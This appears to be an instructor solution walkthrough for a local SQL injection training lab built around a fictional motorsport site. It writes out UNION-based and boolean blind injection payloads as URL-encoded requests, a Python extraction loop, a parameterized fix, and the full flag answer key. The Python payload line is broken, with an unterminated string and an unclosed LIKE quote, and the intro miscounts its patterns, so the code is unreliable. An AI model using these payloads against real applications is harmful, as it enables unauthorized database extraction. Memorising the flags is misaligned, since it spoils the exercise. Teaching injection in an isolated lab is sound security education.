



# ForgeTrack - Full Authorized Lab Walkthrough

> **Instructor solution material - keep outside the student-facing web app.** Test only the isolated ForgeTrack target at `http://localhost:8080`.

## What this lab teaches

ForgeTrack demonstrates three different SQL injection patterns in a fictional motorsport platform:

1. A visible search injection.
2. A UNION-based record extraction challenge.
3. A blind boolean-based telemetry challenge.
4. A secure, parameterized comparison route.

The intended lesson is not to attack a real system. It is to understand how an unsafe query is constructed, observe a controlled local effect, and compare it with safe parameterized code.

## Target map



| Area | Route | Normal purpose | Challenge relevance |
| --- | --- | --- | --- |
| Fleet | `/cars` | View car profiles and readiness. | Reconnaissance context. |
| Build registry | `/builds` | Browse released builds. | Reveals normal record layout. |
| Build search | `/builds/search?query=` | Find a build by name/code. | Visible SQLi. |
| Build view | `/builds/view?id=` | Open a record by identifier. | UNION SQLi. |
| Telemetry | `/telemetry` | List recorded sessions. | Provides valid session-code format. |
| Archive check | `/telemetry/check?session=` | Check session availability. | Blind SQLi oracle. |
| Secure search | `/secure/builds/search?query=` | Patched search example. | Remediation verification. |

## 1. Reconnaissance and baseline requests

Begin with ordinary browsing. Do not begin with payloads. This establishes what the application should look like when it is working normally.

### Useful baseline requests

```http
GET /builds HTTP/1.1
Host: localhost:8080
```

The Builds page shows released records and provides the link format:

```text
/builds/view?id=1
```

Open the build registry search and submit a normal lookup:

```http
GET /builds/search?query=Apex HTTP/1.1
Host: localhost:8080
```

Expected result: one released build, such as the Apex endurance package.

Then capture the fields shown for a normal build result:

```text
id | build code | build name | status | car code | notes
```

This tells the learner that the underlying result has **six display columns**. That is the key observation for the UNION exercise.

### Telemetry baseline

Open `/telemetry` and note a valid session, for example `EMB-Q1-07`. Test it:

```http
GET /telemetry/check?session=EMB-Q1-07 HTTP/1.1
Host: localhost:8080
```

Expected outcome: HTTP `200` and **Archive record located**.

Now test a nonexistent value:

```http
GET /telemetry/check?session=not-a-real-session HTTP/1.1
Host: localhost:8080
```

Expected outcome: HTTP `404` and **No archive record**.



Keep this true/false difference in mind; it becomes the data channel in Challenge 3.

## 2. Challenge 1 - Workshop search injection

### Goal

Retrieve the `search` flag through the normal build-search workflow.

### Discover the behavior

The controlled input is `query`:

```text
/builds/search?query=
```

Start with a normal value, then a single quote. The application suppresses database syntax errors, so an empty result is expected instead of a stack trace. This is deliberate: the learner should inspect behavior and page structure, not rely on an error disclosure.

The vulnerable pattern is conceptually equivalent to:

```sql
SELECT id, build_code, name, status, car_code, notes
FROM builds
WHERE name ILIKE '%USER_INPUT%'
```

Because the user input is inserted inside quotes, a quote can terminate the search string. A UNION result must contain six compatible values.

### Controlled request example

Use this SQL fragment:

```sql
' UNION SELECT 1,challenge,flag_value,'flag','lab','retrieved'
FROM flags WHERE challenge='search' -- 
```

URL-encoded request example:

```http
GET /builds/search?query=%27%20UNION%20SELECT%201%2Cchallenge%2Cflag_value%2C%27flag%27%2C%27lab%27%2C%27retrieved%27%20FROM%20flags%20WHERE%20challenge%3D%27search%27%20--%20 HTTP/1.1
Host: localhost:8080
```

Expected result: a new row appears in the normal search-result table. Its build-name field contains:

```text
RFM{search_breach_confirmed}
```

### Evidence to capture

- The normal search request and a screenshot of its regular result.
- The injection request (URL-encoded is preferred in a report).
- The injected table row containing the flag.
- A short explanation of why the six UNION values match the normal page.

## 3. Challenge 2 - Restricted build record and UNION reasoning

### Goal

Use the build-record endpoint to retrieve the `union` flag.

### Map the normal query

The regular route is:

```text
/builds/view?id=1
```

The visible page displays six values, as discovered during reconnaissance. The restricted build does not appear in the released-build list, which suggests that access to records and data filtering may be handled differently.



### Controlled request example

Use a nonmatching numeric value, followed by a six-column UNION:

```sql
0 UNION SELECT 1,challenge,flag_value,'flag','lab','retrieved'
FROM flags WHERE challenge='union' -- 
```

URL-encoded request example:

```http
GET /builds/view?id=0%20UNION%20SELECT%201%2Cchallenge%2Cflag_value%2C%27flag%27%2C%27lab%27%2C%27retrieved%27%20FROM%20flags%20WHERE%20challenge%3D%27union%27%20--%20 HTTP/1.1
Host: localhost:8080
```

Expected result: the build-view page renders an injected engineering file whose title/body include:

```text
RFM{the_forge_has_a_hidden_lane}
```

### Why it works

The original query expects six selected values. The UNION branch supplies six values in the same order, with compatible types:

| Position | Original display use | Injected value |
| --- | --- | --- |
| 1 | Record ID | `1` |
| 2 | Build code | `challenge` |
| 3 | Build name | `flag_value` |
| 4 | Status | `flag` |
| 5 | Car code | `lab` |
| 6 | Notes | `retrieved` |

## 4. Challenge 3 - Blind telemetry inference

### Goal

Recover the `blind` flag without the endpoint ever displaying a selected database value.

### Understand the oracle

The telemetry endpoint makes a true/false decision. A true condition produces HTTP `200`; false produces `404`.

The challenge uses a boolean test inside the user-controlled session value. Start with a prefix test:

```sql
x' OR (SELECT flag_value FROM flags WHERE challenge='blind') LIKE 'RFM{t%' -- 
```

Example request:

```http
GET /telemetry/check?session=x%27%20OR%20%28SELECT%20flag_value%20FROM%20flags%20WHERE%20challenge%3D%27blind%27%29%20LIKE%20%27RFM%7Bt%25%27%20--%20 HTTP/1.1
Host: localhost:8080
```

If this returns `200`, the candidate prefix `RFM{t` is correct. If it returns `404`, the candidate is wrong.

### Manual recovery process

1. Start with the known format `RFM{`.
2. Guess the next character from a conservative alphabet: lowercase letters, underscore, and `}`.
3. Send a `LIKE 'known_prefix + guess + %'` request.
4. Keep the character that produces `200`.
5. Repeat until `}` is confirmed.

For example, after confirming `RFM{t`, test `RFM{te%`, then `RFM{tel%`, and so on. This local lab flag resolves to:

```text
RFM{telemetry_never_stays_silent}
```

### Small local proof-of-concept loop

The following demonstrates the concept only against this local lab. It checks a restricted character set and prints each confirmed prefix:

```python
import requests

target = "http://localhost:8080/telemetry/check"
alphabet = "abcdefghijklmnopqrstuvwxyz_}"
prefix = "RFM{"

while not prefix.endswith("}"):
    for character in alphabet:
        candidate = prefix + character
        payload = "x' OR (SELECT flag_value FROM flags WHERE challenge='blind') LIKE '" + candidate + "%" -- "
        response = requests.get(target, params={"session": payload}, timeout=5)
        if response.status_code == 200:
            prefix = candidate
            print(prefix)
            break
    else:
        raise RuntimeError("No matching character found")
```

Do not use this pattern outside an explicitly authorized lab target.

## 5. Challenge 4 - Remediation retest

### Goal

Demonstrate that parameterization prevents the input from changing query structure.

The safe comparison route is:

```text
/secure/builds/search?query=
```

Submit the same UNION-style value from Challenge 1. Example request:

```http
GET /secure/builds/search?query=%27%20UNION%20SELECT%201%2Cchallenge%2Cflag_value%2C%27flag%27%2C%27lab%27%2C%27retrieved%27%20FROM%20flags%20WHERE%20challenge%3D%27search%27%20--%20 HTTP/1.1
Host: localhost:8080
```

Expected result: no injected row; the whole string is treated as literal search text.

The secure code uses parameter values, conceptually:

```python
cursor.execute(
    "SELECT ... WHERE name ILIKE %s OR build_code ILIKE %s",
    (f"%{query}%", f"%{query}%"),
)
```

Record the remediation objective as:

```text
RFM{secure_build_verified}
```

## 6. Authenticated operations pages

These are normal application features, not challenge shortcuts:

- **Race Centre** displays events, weather notes, record laps, distances, and entries.
- **Circuit Maps** contains local, illustrative map references.
- **Garage admin** is crew-only. It can update vehicle status, current driver, power, mileage, and intake a new vehicle.
- **Performance** lets crew update all driver statistics and lets a racer edit only their own record.
- **Team chat** stores brief coordination messages with parameterized database writes.

Crew changes are recorded in `audit_logs`. Keep account credentials out of the public login page; instructors should distribute them separately.

## 7. Completion checklist

- [ ] Mapped the normal application routes.
- [ ] Captured a normal build search and build record.
- [ ] Retrieved the visible-search flag.
- [ ] Explained the six-column UNION shape and retrieved the restricted-record flag.
- [ ] Demonstrated the deterministic blind true/false oracle and recovered the blind flag.
- [ ] Retested the same input against the secure route.
- [ ] Explained parameterization and least-privilege database roles.
- [ ] Produced a concise report with evidence, impact, remediation, and retest results.

## Flag summary

| Objective | Flag |
| --- | --- |
| Search | `RFM{search_breach_confirmed}` |
| UNION | `RFM{the_forge_has_a_hidden_lane}` |
| Blind | `RFM{telemetry_never_stays_silent}` |
| Remediation | `RFM{secure_build_verified}` |

Use the flags as proof of each completed objective, not as a substitute for the accompanying explanation. A strong completion report pairs every flag with the request, observed response, risk, and remediation recommendation.
